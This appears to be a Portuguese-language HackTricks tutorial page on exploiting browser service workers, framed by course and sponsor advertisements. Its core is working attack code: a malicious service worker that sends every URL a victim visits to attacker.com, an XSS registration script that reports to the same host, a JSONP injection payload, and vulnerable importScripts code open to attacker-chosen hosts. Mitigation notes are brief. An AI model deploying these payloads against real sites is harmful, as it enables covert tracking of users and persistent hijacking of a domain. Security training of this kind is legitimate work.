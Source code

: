 # Explorando os Service Workers



<details>

<summary><strong>Aprenda hacking AWS do zero ao avançado com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Você trabalha em uma **empresa de cibersegurança**? Gostaria de ver sua **empresa anunciada no HackTricks**? ou gostaria de ter acesso à **última versão do PEASS ou baixar o HackTricks em PDF**? Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* **Junte-se ao** [**💬**](https://emojipedia.org/speech-balloon/) [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para o** [**repositório hacktricks**](https://github.com/carlospolop/hacktricks) **e** [**repositório hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

Encontre vulnerabilidades que são mais importantes para que você possa corrigi-las mais rapidamente. O Intruder rastreia sua superfície de ataque, executa varreduras proativas de ameaças, encontra problemas em toda a sua pilha tecnológica, de APIs a aplicativos da web e sistemas em nuvem. [**Experimente de graça**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) hoje.

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

***

## Informações Básicas

Um **service worker** é um script executado pelo seu navegador em segundo plano, separado de qualquer página da web, permitindo recursos que não requerem uma página da web ou interação do usuário, melhorando assim as capacidades de **processamento offline e em segundo plano**. Informações detalhadas sobre service workers podem ser encontradas [aqui](https://developers.google.com/web/fundamentals/primers/service-workers). Ao explorar service workers em um domínio da web vulnerável, os atacantes podem obter controle sobre as interações da vítima com todas as páginas dentro desse domínio.


### Verificando a Existência de Service Workers

Service workers existentes podem ser verificados na seção **Service Workers** da guia **Application** nas **Ferramentas do Desenvolvedor**. Outro método é visitar [chrome://serviceworker-internals](https://chromium.googlesource.com/chromium/src/+/main/docs/security/chrome%3A/serviceworker-internals) para uma visualização mais detalhada.

### Notificações Push

As **permissões de notificação push** impactam diretamente a capacidade de um **service worker** se comunicar com o servidor sem interação direta do usuário. Se as permissões forem negadas, isso limita o potencial do service worker de representar uma ameaça contínua. Por outro lado, conceder permissões aumenta os riscos de segurança ao permitir a recepção e execução de possíveis exploits.

## Ataque Criando um Service Worker

Para explorar essa vulnerabilidade, você precisa encontrar:

* Uma maneira de **fazer upload de arquivos JS arbitrários** para o servidor e um **XSS para carregar o service worker** do arquivo JS enviado
* Uma **solicitação JSONP vulnerável** onde você pode **manipular a saída (com código JS arbitrário)** e um **XSS** para **carregar o JSONP com um payload** que irá **carregar um service worker malicioso**.

No exemplo a seguir, vou apresentar um código para **registrar um novo service worker** que irá ouvir o evento `fetch` e **enviar para o servidor dos atacantes cada URL acessada** (este é o código que você precisaria **fazer upload** para o **servidor** ou carregar via uma resposta **JSONP vulnerável**):
```javascript
self.addEventListener('fetch', function(e) {
e.respondWith(caches.match(e.request).then(function(response) {
fetch('https://attacker.com/fetch_url/' + e.request.url)
});
```
E este é o código que irá **registrar o worker** (o código que você deveria ser capaz de executar abusando de um **XSS**). Neste caso, uma requisição **GET** será enviada para o servidor dos **atacantes** **notificando** se o **registro** do service worker foi bem-sucedido ou não:
```javascript
<script>
window.addEventListener('load', function() {
var sw = "/uploaded/ws_js.js";
navigator.serviceWorker.register(sw, {scope: '/'})
.then(function(registration) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/success", true);
xhttp2.send();
}, function (err) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/error", true);
xhttp2.send();
});
});
</script>
```
No caso de abusar de um ponto final JSONP vulnerável, você deve colocar o valor dentro de `var sw`. Por exemplo:
```javascript
var sw = "/jsonp?callback=onfetch=function(e){ e.respondWith(caches.match(e.request).then(function(response){ fetch('https://attacker.com/fetch_url/' + e.request.url) }) )}//";
```
Existe um **C2** dedicado à **exploração de Service Workers** chamado [**Shadow Workers**](https://shadow-workers.github.io) que será muito útil para abusar dessas vulnerabilidades.

A diretiva de **cache de 24 horas** limita a vida de um **service worker (SW)** malicioso ou comprometido a no máximo 24 horas após a correção de uma vulnerabilidade de XSS, assumindo status de cliente online. Para minimizar a vulnerabilidade, os operadores do site podem reduzir o Tempo de Vida (TTL) do script do SW. Os desenvolvedores também são aconselhados a criar um [**interruptor de desativação do service worker**](https://stackoverflow.com/questions/33986976/how-can-i-remove-a-buggy-service-worker-or-implement-a-kill-switch/38980776#38980776) para desativação rápida.

## Abusando do `importScripts` em um SW via DOM Clobbering

A função **`importScripts`** chamada de um Service Worker pode **importar um script de um domínio diferente**. Se esta função for chamada usando um **parâmetro que um atacante poderia** modificar, ele seria capaz de **importar um script JS de seu domínio** e obter XSS.

**Isso até mesmo burla as proteções CSP.**

**Exemplo de código vulnerável:**

* **index.html**
```html
<script>
navigator.serviceWorker.register('/dom-invader/testcases/augmented-dom-import-scripts/sw.js' + location.search);
// attacker controls location.search
</script>
```
* **sw.js**
```javascript
const searchParams = new URLSearchParams(location.search);
let host = searchParams.get('host');
self.importScripts(host + "/sw_extra.js");
//host can be controllable by an attacker
```
### Com DOM Clobbering

Para mais informações sobre o que é o DOM Clobbering, consulte:

{% content-ref url="dom-clobbering.md" %}
[dom-clobbering.md](dom-clobbering.md)
{% endcontent-ref %}

Se a URL/domínio que o SW está usando para chamar **`importScripts`** estiver **dentro de um elemento HTML**, é **possível modificá-lo via DOM Clobbering** para fazer o SW **carregar um script do seu próprio domínio**.

Para um exemplo disso, consulte o link de referência.

## Referências

* [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

Encontre vulnerabilidades que mais importam para que você possa corrigi-las mais rapidamente. O Intruder rastreia sua superfície de ataque, executa varreduras proativas de ameaças, encontra problemas em toda a sua pilha tecnológica, de APIs a aplicativos da web e sistemas em nuvem. [**Experimente gratuitamente**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) hoje.

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}


<details>

<summary><strong>Aprenda hacking na AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Você trabalha em uma **empresa de cibersegurança**? Você quer ver sua **empresa anunciada no HackTricks**? ou quer ter acesso à **última versão do PEASS ou baixar o HackTricks em PDF**? Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* **Junte-se ao** [**💬**](https://emojipedia.org/speech-balloon/) [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para o** [**repositório hacktricks**](https://github.com/carlospolop/hacktricks) **e** [**repositório hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
